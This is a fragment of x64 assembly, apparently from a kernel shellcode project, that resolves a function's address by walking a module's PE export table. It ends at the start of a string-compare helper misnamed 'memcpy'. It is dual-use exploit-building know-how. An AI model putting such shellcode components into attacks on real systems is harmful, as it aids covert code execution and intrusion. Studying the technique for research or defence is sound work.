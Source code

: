 ```Assembly
	mov ecx, [rax + 3ch]                ; ImageDosHeader->e_lfanew
	mov ecx, [rax + rcx + 88h]          ; ImagePeHeaders64->OptionalHeader.DataDirectory[0]
	add rcx, rax                        ; VA of _IMAGE_EXPORT_DIRECTORY
	mov [rbp - 18h], rcx                ; store VA of IED

	xor rcx, rcx
	mov [rbp - 20h], rcx

cycle_functions:
	mov rax, [rbp - 18h]                ; VA of IED
	xor rdx, rdx
	mov edx, [rax + 20h]                ; RVA of AddressOfNames
	mov rax, [rbp - 08h]                ; module
	add rdx, rax                        ; VA of AddressOfNames
	mov rcx, [rbp - 20h]                ; i
	lea rdx, [rdx + rcx * 4]            ; Address of RVA of ith name
	xor rcx, rcx
	mov ecx, [rdx]                      ; RVA of ith name
	add rcx, rax ; VA of ith name
	mov rdx, [rbp - 10h]                ; func_name
	call kernel_shellcode_memcpy
	je found
	mov rcx, [rbp - 20h] ; i
	inc rcx
	mov [rbp - 20h], rcx
	jmp cycle_functions

found:
	mov rax, [rbp - 18h]                ; VA of IED
	xor rdx, rdx
	mov edx, [rax + 24h]                ; RVA of AddressOfNameOrdinals
	mov rax, [rbp - 08h]                ; module
	add rdx, rax                        ; VA of AddressOfNameOrdinals
	mov rax, [rbp - 20h] ; i
	lea rdx, [rdx + rax * 2]            ; VA of i-th AddressOfNameOrdinals
	xor rcx, rcx
	mov cx, [rdx]                       ; i-th AddressOfNameOrdinals

	mov rax, [rbp - 18h]                ; VA of IED
	xor rdx, rdx
	mov edx, [rax + 1ch]                ; RVA of AddressOfFunctions
	mov rax, [rbp - 08h]                ; module
	add rdx, rax                        ; VA of AddressOfFunctions
	sal rcx, 2                          ; offset of ordinal
	add rdx, rcx                        ; VA of target AddressOfFunctions
	xor rcx, rcx
	mov ecx, [rdx]                      ; target AddressOfFunctions
	add rax, rcx                        ; VA of target function

	leave
	ret
kernel_shellcode_find_module_func ENDP

; int kernel_shellcode_memcpy (char *str1, char *str2)
kernel_shellcode_memcpy PROC
	push rbp
	mov rbp, rsp

iter:
	mov al, [rdx]
	cmp al, [rcx]
	jne not_equal
	xor al, al
```